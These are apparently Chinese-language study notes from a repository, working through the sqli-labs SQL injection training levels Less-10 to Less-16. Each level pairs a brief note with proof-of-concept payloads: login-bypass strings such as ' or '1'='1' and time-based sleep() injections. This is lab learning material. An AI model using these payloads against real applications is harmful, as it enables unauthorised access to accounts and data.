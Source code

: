 
## Less-10
在Less-9的基础上换成双引号
```
id=1" and sleep(10) --
```

## Less-11
最基础的登录注入，有一点需要注意，--后面有一个空格
poc
```
username: admin' and '1'='1' --
username: ' or '1'='1' limit 1,1 -- 
```
这里使用上面的`--+`不成功，使用`--空格`成功了，不知道具体的原因，有待后续查验

[Overview](#overview)


## Less-12
将Less-11中的单引号变为双引号，并添加一层括号
poc
```
username: ") or "1"="1" limit 0,1 --  
```
[test](#user-content-Less-7)
## Less-13
poc
```
username:') or "1"="1" limit 0,1 -- 
```


## Less-14
poc
```
username: " or "1"="1" limit 0,1 -- 
```

## Less-15
不会显示任何错误，布尔型注入
poc
```
username: ' or '1'='1' limit 1,1 -- 
```


## Less-16
不会显示任何错误，基于时间型注入
poc
```
username: ") or sleep(2) -- test
username: ") or "1"="1" -- test
```
